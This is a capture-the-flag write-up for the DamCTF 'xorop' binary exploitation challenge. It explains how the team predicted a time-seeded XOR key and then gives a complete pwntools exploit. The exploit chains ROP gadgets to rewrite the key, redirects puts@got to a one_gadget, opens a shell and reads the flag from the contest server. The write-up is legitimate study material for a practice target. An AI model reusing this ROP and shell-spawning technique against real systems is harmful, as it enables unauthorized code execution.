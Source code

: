 ​Hi,
we get first blood on this one, so a little write up follows...

the key is generated with a dumb algorithm (srand(time(0)) and some xor..
it depends on time so..
the server and the attacker must have the same date to generate the good key

this key is added to libc addresses on .bss (got) to make them unusable...

the idea, is to calculate the negative key + the offset from puts address in libc to a onegadget
then we return back to the function which encode the libc addresses to cancel the libc addresses modifications on .bss
then we just call puts, which will contain the onegadget address by now

the key was stored at address 0x600c38 on .bss,
we modify it with a xor gadget (gadget3)

it takes 2 o 3 tries to work sometimes...no more..

stdin is closed by the program, and will need to be redirected to fd number 3, that's why we do "/bin/sh 1>&3" first,
to see the output of commands

brought to you, by nobodyisnobody , pwner for **RootMeUpBeforeYouGoGo**


```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
#
from pwn import *
from ctypes import CDLL
from math import *

libc = CDLL("libc.so.6")


context.log_level = 'info'

#setting
do_remote = 1
remote_host = 'chals.damctf.xyz'
remote_port = 31228
challenge_exe = "./xorop"

context(arch = 'amd64', os = 'linux', endian="little")

puts_plt = 0x000000000400620

gadget3 = 0x400708	# xor    QWORD PTR [rdi],rsi / add    rdi,0x8 / cmp    rdx,rdi / ja     400708 / ret
gadget4 = 0x000000000040088f  # pop rdi ; ret
gadget5 = 0x000000000040088d  # pop rsi ; pop r15 ; ret
gadget6 = 0x400890		# ret

# get time
now = int(floor(time.time()))

if do_remote == 1:
  p = connect(remote_host, remote_port)
else:
  p = process(challenge_exe, env={'LD_PRELOAD':'./libc.so.6'})

p.sendafter('continue.\n', '\x00')

# initialize with srand(time(0))
libc.srand(now)
info('now = '+str(now))

key = libc.rand()
if (key & 0x80000000):
  key = (0xffffffff80000000 | (key & 0x7fffffff))
nrand = libc.rand()
if (nrand & 0x80000000): 
  nrand = (0xffffffff80000000 | (nrand & 0x7fffffff) )
key = key ^ (nrand<<21)
key = (key ^ (libc.rand()<<42))&0xffffffffffffffff

# negate the key + offset of onegadget
negkey = (0 - (key + 0x316cb ))&0xffffffffffffffff      # 0x4f365 execve("/bin/sh", rsp+0x40, environ)
info('my key = '+hex(key)+'  (negkey = '+hex(negkey)+')')

# we use xor gadget to change the key to it's negative + offset of (onegadget - puts) in libc
payload = p64(gadget4) + p64(0x600c38)
payload += p64(gadget5) + p64(key ^ negkey) + p64(0)
payload += p64(gadget3)
# we return to the program that encode the libc addresses in .bss, but this time it will decode them with the negative key
payload += p64(0x4007d4)
payload += p64(0)*9
# we add a gadget to align the stack
payload += p64(gadget6)
# then we jump to the one_gadget (which is in puts@got now)
payload += p64(puts_plt)

p.sendlineafter('memfrob?\n', p64(0) + p64(0xdeadbeef)*7 + p64(negkey & 0xffffffff) + payload)
p.readuntil('4 u.\n')

p.sendline('/bin/sh 1>&3')
info('Ok Take your flag dude...')
p.sendline('cat flag')

p.interactive()

```

